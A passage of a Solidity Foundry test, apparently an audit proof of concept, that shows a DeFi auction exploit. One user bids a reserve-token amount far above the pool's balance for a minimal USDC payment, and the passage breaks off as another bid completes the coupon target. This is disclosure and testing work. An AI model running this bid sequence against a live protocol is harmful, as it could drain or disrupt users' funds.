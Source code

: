 ```solidity
            params,
            0.1e18,
            2e18,
            2e18,
            "BToken",
            "BT",
            "LToken",
            "LT",
            false
        ));

        pool.setAuctionPeriod(10 days);
        vm.stopPrank();

        BondToken bToken = BondToken(pool.bondToken());
        LeverageToken lToken = LeverageToken(pool.lToken());

        return (rToken, usdc, bToken, lToken, pool);
    }

    function setupWithRealCouponAmount() public returns(Token, Token, BondToken, LeverageToken, Pool) {
        params.sharesPerToken = 2.5e6;
        (Token rToken, Token usdc, BondToken bToken, LeverageToken lToken, Pool pool) = standardSetup();

        return (rToken, usdc, bToken, lToken, pool);
    }

    function test_POC() public {
        (Token rToken, Token usdc, BondToken bToken, LeverageToken lToken, Pool pool) = setupWithRealCouponAmount();

        vm.startPrank(alice);
        console.log("\n====== Alice creates position with 20e18 ======");
        rToken.approve(address(pool), 20e18);
        pool.create( //Alice mints bondETH
            Pool.TokenType.BOND,
            20e18,
            0
        );
        vm.stopPrank();

        vm.warp(block.timestamp + 92 days);

        vm.startPrank(bob);
        console.log("\n====== Bob starts auction ======");
        pool.startAuction(); //Bob starts auction
        Auction auction = Auction(pool.auctions(0));

        console.log("\n====== Bob places his bid ======");
        usdc.approve(address(auction), 1505000);
        auction.bid( //Bob bids a very high reserve token amount which is much higher than the balance that the pool has
            1e49,
            1505000 //Mininmal amount that can be bid
        );
        vm.stopPrank();

        vm.startPrank(chad);
        console.log("\n====== Chad places his bid ======");
        usdc.approve(address(auction), 1505e6);
        auction.bid( //Chad places a bid so that the totalBuyCouponAmount is reached
```